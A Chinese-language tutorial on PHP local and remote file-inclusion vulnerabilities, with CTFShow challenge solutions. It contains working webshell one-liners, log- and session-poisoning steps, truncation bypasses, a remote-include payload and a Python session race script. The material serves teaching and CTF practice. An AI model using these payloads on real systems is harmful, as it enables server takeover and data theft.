





# 文件包含漏洞

* [文件包含漏洞](#文件包含漏洞)
  * [漏洞简述](#漏洞简述)
  * [漏洞产生原因](#漏洞产生原因)
  * [文件包含相关函数](#文件包含相关函数)
  * [文件包含类型](#文件包含类型)
    * [本地文件包含漏洞(LFI)](#本地文件包含漏洞lfi)
    * [远程文件包含漏洞(RFI)](#远程文件包含漏洞rfi)
  * [文件包含漏洞支持的协议](#文件包含漏洞支持的协议)
  * [漏洞利用](#漏洞利用)
    * [本地文件包含漏洞](#本地文件包含漏洞)
      * [1、包含同目录下文件](#1包含同目录下文件)
      * [2、包含系统其他文件](#2包含系统其他文件)
      * [3、包含Web日志文件Getshell](#3包含web日志文件getshell)
      * [4、包含SSH日志Getshell](#4包含ssh日志getshell)
      * [5、包含environ文件Getshell](#5包含environ文件getshell)
      * [6、包含SESSION文件Getshell](#6包含session文件getshell)
      * [7、配合上传漏洞Getshell](#7配合上传漏洞getshell)
      * [8、有限制本地文件包含漏洞绕过](#8有限制本地文件包含漏洞绕过)
          * [<strong>%00截断绕过</strong>](#00截断绕过)
          * [<strong>路径长度截断</strong>](#路径长度截断)
          * [<strong>点号截断</strong>](#点号截断)
    * [远程文件包含漏洞](#远程文件包含漏洞)
      * [无限制远程文件包含漏洞](#无限制远程文件包含漏洞)
      * [有限制远程文件包含漏洞绕过](#有限制远程文件包含漏洞绕过)
  * [CTFSHOW题目](#ctfshow题目)
      * [web78](#web78)
      * [web79](#web79)
      * [web80](#web80)
      * [web81](#web81)
      * [web82\-86](#web82-86)
      * [web87](#web87)
      * [web88](#web88)
      * [web116](#web116)
      * [web117](#web117)

------

## 漏洞简述

```php
  服务器通过PHP的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到攻击的目的。
```

------

## 漏洞产生原因

```php
 在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件（即恶意文件）
```

------

## 文件包含相关函数

php有四个引发文件包含漏洞的函数：

```php
include()
   当使用该函数包含文件时，只有代码执行到include()函数时才将文件包含进来，发生错误时，给出警告，继续向下执行。
    
include_once()
   功能与include()相同，区别在于当重复调用统一文件时，程序只调用一次。
    
require()
   require()与include的区别在于require()执行如果发生错误，函数会输出错误信息，并终止脚本的运行。
    
require_once()
   功能与require()相同，区别在于当重复调用统一文件时，程序只调用一次。
```

------

## 文件包含类型

### 本地文件包含漏洞(LFI)

网站服务器本身存在恶意文件，然后利用本地文件包含使用

利用条件：

* allow_url_fopen=On
* 用户可以动态控制变量


### 远程文件包含漏洞(RFI)

调用其他网站的恶意文件进行打开。

利用条件：

* allow_url_include=On&&allow_url_fopen=On（两个选项同时开启）
* 用户可以动态控制变量


------

## 文件包含漏洞支持的协议

- [file://](https://www.php.net/manual/zh/wrappers.file.php) — 访问本地文件系统
- [http://](https://www.php.net/manual/zh/wrappers.http.php) — 访问 HTTP(s) 网址
- [ftp://](https://www.php.net/manual/zh/wrappers.ftp.php) — 访问 FTP(s) URLs
- [php://](https://www.php.net/manual/zh/wrappers.php.php) — 访问各个输入/输出流（I/O streams）
- [zlib://](https://www.php.net/manual/zh/wrappers.compression.php) — 压缩流
- [data://](https://www.php.net/manual/zh/wrappers.data.php) — 数据（RFC 2397）
- [glob://](https://www.php.net/manual/zh/wrappers.glob.php) — 查找匹配的文件路径模式
- [phar://](https://www.php.net/manual/zh/wrappers.phar.php) — PHP 归档
- [ssh2://](https://www.php.net/manual/zh/wrappers.ssh2.php) — Secure Shell 2
- [rar://](https://www.php.net/manual/zh/wrappers.rar.php) — RAR
- [ogg://](https://www.php.net/manual/zh/wrappers.audio.php) — 音频流
- [expect://](https://www.php.net/manual/zh/wrappers.expect.php) — 处理交互式的流

下面重点将常用的伪协议：

1、`file://`
这个协议可以展现本地文件系统,默认目录是当前的工作目录。
`file:///path/to/file.ext` 在文件包含中其实也就是等价`/path/to/file.ext`
但是如果来个题目给你来个正则匹配`../` 或`/`开头的时候就可以用这个方法来绕过了。

2、`php://`

* `php://input`是个可以访问请求的原始数据的只读流
* `php://filter` 是一种元封装器， 设计用于数据流打开时的[筛选过滤](https://www.php.net/manual/zh/filters.php)应用

常见用法:



可用过滤器列表(https://www.php.net/manual/zh/filters.php)中列出了各种过滤器

```php
(1)
readfile("http://www.example.com");
等价于
readfile("php://filter/resource=http://www.example.com");
(2)
读取链
file_get_contents("php://filter/read=convert.base64-encode/resource=test.php");
写入链
file_put_contents("php://filter/write=convert.base64-decode/resource=[file]","base64");
这个点在ctf有时候会很有用,可以绕过一些waf
```

3、`php://input`

可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。
利用条件:

* allow_url_fopen :off/on (默认配置on)          
* allow_url_include:on (默认配置off)




------

## 漏洞利用

### 本地文件包含漏洞

测试源码

```php
<?php
$file = $_GET['file'];
include($file);
?>
```

#### 1、包含同目录下文件

```php
包含普通文件
?file=.htaccess

php伪协议包含php文件
?file=php://filter/read=convert.base64-encode/resouce=index.php
```


#### 2、包含系统其他文件

前提：

* 需要对包含的文件具有可读权限

```php
包含/etc/passwd文件
?file=/etc/passwd

包含/etc/hosts文件
?file=/etc/hosts
```


#### 3、包含Web日志文件Getshell

前提：

* 需要知道Web日志文件存放路径
* Web日志可读

这里假设目标服务器上运行的是Apache中间件，访问日志存放在/var/log/apache2/access.log文件下

```php
将一句话目标写入到access.log中
http://目标站点域名或IP/<?php @eval($_POST['cmd']);?>

包含日志文件Getshell
?file=/var/log/apache2/access.log
```


#### 4、包含SSH日志Getshell

前提：

* 需要知道ssh登录日志存放路径
* ssh日志可读
* 目标主机开启ssh服务

在Linux系统中，默认的ssh登录日志文件路径/var/log/auth.log

```php
ssh连接目标主机，然后随机输入密码，一句话目标会写入到目标主机/var/log/auth.log文件中
ssh 'eval($_POST['cmd']);?>'@目标主机ip地址  

包含日志文件Getshell
?file=/var/log/auth.log
```


#### 5、包含environ文件Getshell

前提：

* php以cgi方式运行，这样environ才会保持UA头。
* environ文件存储位置已知，且environ文件可读。

/proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它即可

```php
在请求数据包中添加一句话目标到user-agent中
User-Agent：<?php @eval($_POST['cmd']);?>

包含/proc/self/environ文件Getshell
?file=/proc/self/environ
```


#### 6、包含SESSION文件Getshell

前提：

* 找到Session内的可控变量
* Session文件可读写，并且知道存储路径

php的session文件的保存路径可以在phpinfo的session.save_path看到

**常见的session存放路径：**

* /var/lib/php/sess_PHPSESSID
* /var/lib/php/sess_PHPSESSID
* /tmp/sess_PHPSESSID
* /tmp/sessions/sess_PHPSESSID
* session文件格式： sess_[phpsessid] ，而 phpsessid 在发送的请求的 cookie 字段中可以看到

案例分析：

 session文件源码

```php
session_start();
$ctfs=$_GET['ctfs'];
$_SESSION['username']=$ctfs
```

此代码可以通过GET型的ctfs参数传入。PHP代码将会获取的值存入到Session中。攻击者可以利用ctfs参数将恶意代码写入到session文件中，然后在利用文件包含漏洞包含此session文件，向系统中传递恶意代码。

漏洞分析：

上面的代码满足Session文件包含的两个要求

- PHP代码将会获取ctfs变量的值存入到session中
- Session的默认 存储位置是/var/lib/php/session

访问URL：`http://www.xxx.com/xxx/session.php?ctfs=a` 会在/var/lib/php/session目录下降ctfs传入的值存储到session中，Session的文件名以sess_开头，后跟Sessionid，Sessionid可以通过开发者模式获取：单击右键——检查——存储——Cookie——PHPSESSID 就可以找到内容。假设通过开发者模式获取到的sessionid的值为hufh7hsdf392eurh4,所以session的文件名为`sess_hufh7hsdf392eurh4`，在/var/lib/
php/session目录下查看此文件，内容为：**username|s:4:"a"**

漏洞利用：

通过上面的分析，可以得知，向ctfs参数传入的内容会存储到session文件中。
如果存在本地文件包含漏洞，就可以通过ctfs写入恶意代码到Session文件当中去，然后通过文件包含漏洞执行getshell

例如：访问代码`http://www.xxx.com/xxx/session.php?ctfs=<?php phpinfo();?>`后，会在/var/lib/php/session目录下降ctfs的值写入session文件
session文件的内容为：`username|s:18:"<?php phpinfo();?>"`.

**攻击步骤**

- 将恶意代码写入session文件
- 攻击者可以通过PHPinfo或者猜测到session存放的位置
- 通过开发者模式可以获得文件名称
- 通过本地文件包含漏洞可以解析session文件达到攻击的目的

比如：`http://www.abc.com/xxx/file.php?file=../../var/lib/php/session/sess_7sdfysdfywy9323cew2`


#### 7、配合上传漏洞Getshell

**普通上传**

```php
将一句话木马插入到图片文件中
echo '<?php @eval($_POST['cmd']);?>' > 1.jpg
然后上传1.jpg到目标服务器上

包含1.jpg图片Getshell
?file=/xxx/xxx/xxx/1.jpg
```

**特殊姿势：配合phar伪协议**

```php
将一句话木马保存到shell.php文件中，然后使用zip命令压缩成1.jpg
echo '<?php @eval($_POST['cmd']);?>' > shell.php
zip 1.jpg shell.php
然后上传1.jpg到目标服务器上

配合phar伪协议包含1.zip压缩包中的shell.php文件Getshell
?phar://1.jpg/shell.php
```

**特殊姿势：配合zip伪协议**

```php
将一句话木马保存到shell.php文件中，然后使用zip命令压缩成1.jpg
echo '<?php @eval($_POST['cmd']);?>' > shell.php
zip 1.jpg shell.php
然后上传1.zip到目标服务器上

配合zip伪协议包含1.zip压缩包中的shell.php文件Getshell
?zip://1.jpg%231.jpg
```


#### 8、有限制本地文件包含漏洞绕过

测试代码：

```php
<?php
    $filename  = $_GET['filename'];
    include($filename . ".html");
?>
```

代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。


###### **%00截断绕过**

条件：magic_quotes_gpc = Off php版本<5.3.4

```php
http://www.xxx.com/lfi.php?filename=/etc/passwd%00
```


###### **路径长度截断**

条件：windows OS，点号需要长于256；linux OS 长于4096

* Windows下目录最大长度为256字节，超出的部分会被丢弃；
* Linux下目录最大长度为4096字节，超出的部分会被丢弃。

```php
http://www.xxx.com/lfi.php?filename=test.txt?/././././././././././././././././././././././././././././././././
./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```


###### **点号截断**

条件：windows OS，点号需要长于256

```php
http://www.xxx.com/lfi.php?filename=test.txt.......................................................................
..........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
```


### 远程文件包含漏洞

PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

* allow_url_fopen = On（是否允许打开远程文件）
* allow_url_include = On（是否允许include/require远程文件）

#### 无限制远程文件包含漏洞

**测试代码：**

```php
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

通过远程文件包含漏洞，包含php.txt可以解析。

```php
http://xxx.com/rfi.php?filename=http://1.1.1.1/php.txt
```


#### 有限制远程文件包含漏洞绕过

测试代码：

```php
<?php include($_GET['filename'] . ".html"); ?>
```

代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。

问号绕过

```php
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?
```

#号绕过

```php
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23
```

其他绕过方法可以通过fuzz来测试哪些字符可以进行绕过


------

## CTFSHOW题目

#### web78

**题目源码**

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

**解题思路：用php://filter伪协议去读取flag.php**

php://filter（本地磁盘文件进行读取） 元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。 

用法：filename=php://filter/convert.base64-encode/resource=xxx.php ?filename=php://filter/read=convert.base64-encode/resource=xxx.php 一样。 条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；

```php
?file=php://filter/read=convert.base64-encode/resource=flag.php
```


#### web79

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

**解题思路：用data协议读取flag.php文件**

data://伪协议数据流封装器，和php://相似都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的

```php
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```


#### web80

```php
<?php
    if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

**解题思路：用PHP://input绕过str_replace替换，从而去执行代码**

**php://input**可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。

```php
?file=PHP://input + POSTdata命令执行
	<?php system('cat fl0g.php');?>
```


#### web81

```php
<?php
    if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

**解题思路：包含nginx日志文件**

当我们访问网站时，服务器的日志中都会记录我们的行为，如果我们在UA头写入一句话木马的，就会被写入日志文件。
UA头写入 <?=eval($_GET['cmd']); ?>，然后传参?file=/var/log/nginx/access.log&cmd=cat /fl0g.php获取flag就可以了。

```php
?file=/var/log/nginx/access.log
   首先在Usage-Agent中加入一句话木马提交，然后包含nginx日志文件getshell 
```


#### web82-86

```php
##Web82
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}

##Web83
<?php
session_unset();
session_destroy();

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);

    include($file);
}else{
    highlight_file(__FILE__);
}

##Web84
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    system("rm -rf /tmp/*");
    include($file);
}else{
    highlight_file(__FILE__);
}

##Web85
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    if(file_exists($file)){
        $content = file_get_contents($file);
        if(strpos($content, "<")>0){
            die("error");
        }
        include($file);
    }
    
}else{
    highlight_file(__FILE__);
}

####Web86
<?php
define('还要秀？', dirname(__FILE__));
set_include_path(还要秀？);
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);

    
}else{
    highlight_file(__FILE__);
}
```

解题思路：由于题目中过滤了`.`，所以上面的方法不能使用了，这个题目要利用session对话进行文件包含利用

通杀python脚本：

```python
# -*- coding: utf-8 -*-
import io
import requests
import threading

sessID = 'flag'
url = 'http://85377b2d-76ff-49dd-95bc-1a67931482c1.challenge.ctf.show/'


def write(session):
    while event.isSet():
        f = io.BytesIO(b'a' * 1024 * 50)
        response = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat *.php");?>'},
            files={'file': ('test.txt', f)}
        )


def read(session):
    while event.isSet():
        response = session.get(url + '?file=/tmp/sess_{}'.format(sessID))
        if 'test' in response.text:
            print(response.text)
            event.clear()
        else:
            pass


if __name__ == '__main__':
    event = threading.Event()
    event.set()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()

        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
```


#### web87

```php
<?php
    if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

解题思路：

1、题目最后对$file变量进行了url解码，所以我们可以对$file进行两次URL编码来绕过过滤

2、在$file和$content中间增加了exit过程，导致即使我们成功写入一句话，也执行不了。幸运的是，这里的`$_GET['file']`是可以控制协议的，我们即可使用 php://filter协议来施展魔法：使用php://filter流的base64-decode方法，将`$content`解码，利用php base64_decode函数特性去除“死亡die”。

在base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码。

所以，一个正常的base64_decode实际上可以理解为如下两个步骤：

```php
<?php
$_GET['txt'] = preg_replace('|[^a-z0-9A-Z+/]|s', '', $_GET['txt']);
base64_decode($_GET['txt']);
```

当`$file和$content中间`被加上了`<?php die; ?>`以后，我们可以使用 php://filter/write=convert.base64-decode 来首先对其解码。在解码的过程中，字符<、?、;、>、空格等一共有7个字符不符合base64编码的字符范围将被忽略，所以最终被解码的字符仅有“phpexit”和我们传入的其他字符。

“phpdie”一共7个字符，因为base64算法解码时是4个byte一组，所以给他增加1个“aa”一共8个字符。这样，"phpdieaa"被正常解码，而后面我们传入的webshell的base64内容也被正常解码。结果就是`<?php die; ?>`没有了。

**最终效果：**



最后访问`/shell.php?cmd=cat+fl0g.php`拿到flag



参考文章：https://www.leavesongs.com/PENETRATION/php-filter-magic.html


#### web88

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

解题思路：只过滤了php,我们可以用data伪协议,base64绕过,但是还有一个问题,+和=号是被过滤的,而`<?php echo`ls`?>`的base64加密有等号,我们可以在后面加入其他字符来混淆

```php
##列出当前目录
?file=data://text/plain;base64,PD9waHAgZWNobyBgbHNgPz4xMTEx  #base64编码内容为<?php echo `ls`?>1111

##查看flag文件
?file=data://text/plain;base64,PD9waHAgZWNobyBgY2F0IGZsMGcucCpgPz4xMTEx  #base64编码内容为<?php echo `cat fl0g.p*`?>1111
```


#### web116

解题思路：打开题目，下载mp4文件，用foremost分离mp4文件得到一张png图片，打开图片得到题目源码，最后传入?file=flag.php参数得到flag




#### web117

```PHP
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

解题思路：

1、题目中正则只过滤了base64，rot13，string等一些过滤器的内容，这里我们使用convert.iconv.*过滤器来绕过。

2、最后使用`?<hp pid(e;)>?<?php eval($_GET['a']); ?>`来绕过exit，当我们传入代码，前面的die()被编码后不符合php格式，被当做字符串，而我们传的代码编码后正常了。

PHP处理器：https://blog.csdn.net/qq_44657899/article/details/109300335

```php
GET: ?file=php://filter/convert.iconv.ucs-2be.ucs-2le/resource=cmd.php

POST: contents=?<hp pvela$(G_TE'['cmd)] ;>?
```

最后访问`/cmd.php?cmd=system('cat+flag.php'); `得到flag


参考资料：

https://xz.aliyun.com/t/5535

https://www.freebuf.com/articles/web/182280.html

https://www.debugger.wiki/article/html/1632386160282209